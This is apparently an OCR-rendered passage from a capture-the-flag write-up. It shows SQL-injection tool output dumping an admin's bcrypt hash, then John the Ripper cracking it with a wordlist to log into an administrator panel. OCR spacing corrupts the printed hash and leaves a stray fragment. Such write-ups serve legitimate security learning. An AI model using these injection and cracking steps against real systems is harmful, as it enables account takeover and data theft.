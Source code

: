 ```bash
| ____. ' `- '` "' --- '' --- '

 [-] Fetching CSRF token
 [-] Testing SQLi
  - Found table: d8uea_users
  - Found table: users
  - Extracting users from d8uea_users
 [$] Found user ['629', 'admin', 'admin', 'freddy@norealaddress.net', '$ 2y $ 10 $ DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu', '', '']
  - Extracting sessions from d8uea_session
  - Extracting users from users
  - Extracting sessions from session
```

## BREAKING HASH - JOHN THE RIPPER
So we have hash "$ 2y $ 10 $ DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu" for admin

I'm trying to break it with John the Ripper:

```bash
$ john hash.txt --wordlist /usr/share/wordlists/rockyou.txt
Warning: only loading hashes of type "bcrypt", but also saw type "tripcode"
Use the "--format = tripcode" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "descrypt"
Use the "--format = descrypt" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "pix-md5"
Use the "--format = pix-md5" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "mysql"
Use the "--format = mysql" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "oracle"
Use the "--format = oracle" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "Raw-SHA1"
Use the "--format = Raw-SHA1" option to force loading hashes of that type instead
pe instead
Warning: only loading hashes of type "bcrypt", but also saw type "bsdicrypt"
Use the "--format = bsdicrypt" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "HMAC-SHA384"
Use the "--format = HMAC-SHA384" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "oracle11"
Use the "--format = oracle11" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "xsha"
Use the "--format = xsha" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "lotus85"
Use the "--format = lotus85" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "HAVAL-256-3"
Use the "--format = HAVAL-256-3" option to force loading hashes of that type instead
Warning: only loading hashes of type "bcrypt", but also saw type "plaintext"
Use the "--format = plaintext" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
snoopy (?)
1g 0: 00: 00: 01 DONE (2020-06-09 04:56) 0.6993g / s 25.17p / s 25.17c / s 25.17C / s a1b2c3..buster
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
So the password is "snoopy"
When logged in, in the directory / administrator we see the following panel:
